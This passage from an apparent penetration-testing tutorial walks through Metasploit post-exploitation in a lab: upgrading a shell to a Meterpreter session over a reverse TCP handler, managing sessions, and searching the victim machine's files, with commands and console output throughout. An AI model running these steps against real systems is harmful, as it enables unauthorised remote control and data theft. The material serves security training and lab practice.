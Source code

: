 There is also another option to upgrade your shell session to meterpreter using the `sessions` command:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -u 2
```

```
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [2]

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.74.128:4433 
[*] Sending stage (984904 bytes) to 192.168.74.129
[*] Meterpreter session 3 opened (192.168.74.128:4433 -> 192.168.74.129:46599) at 2021-06-29 10:55:16 -0400
```

This is a much easier way. You can kill any sessions with the “sessions” command using the “-k” flag followed by the session ID. You can interact with any of the sessions using the “-i” flag with the sessions command. Let’s open session 3 that we just got –

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 3
[*] Starting interaction with 3...
meterpreter >
```

As you can see, now we’re in meterpreter. There’s a lot a meterpreter console can do. You can type `help` to get a list of commands meterpreter supports. Let’s find out some of the functionalities that meterpreter can do.

#### Meterpreter functionalities <a href="#post-3536-_heading-h.4f1mdlm" id="post-3536-_heading-h.4f1mdlm"></a>

Meterpreter gives you loads of options for you to explore. You can get the commands by typing in “help” in meterpreter console. You can navigate the victim machine using the basic navigational commands of Linux. You can also download or upload some files into the victim system. There is a search option to search the victim machine with your desired keywords:

You can search for a file with the `search` command with `-f` flag:

```
meterpreter > search -f license.txt
Found 8 results...
    /var/www/tikiwiki-old/license.txt (24381 bytes)
    /var/www/twiki/license.txt (19440 bytes)
    /var/www/tikiwiki/license.txt (24381 bytes)
    /home/msfadmin/vulnerable/twiki20030201/twiki-source/license.txt (19440 bytes)
    /var/www/tikiwiki-old/lib/adodb/license.txt (26079 bytes)
    /var/www/tikiwiki-old/lib/htmlarea/license.txt (1545 bytes)
    /var/www/tikiwiki/lib/adodb/license.txt (26079 bytes)
    /var/www/tikiwiki/lib/htmlarea/license.txt (1545 bytes)
```

Downloding any file is super straightforward as well:
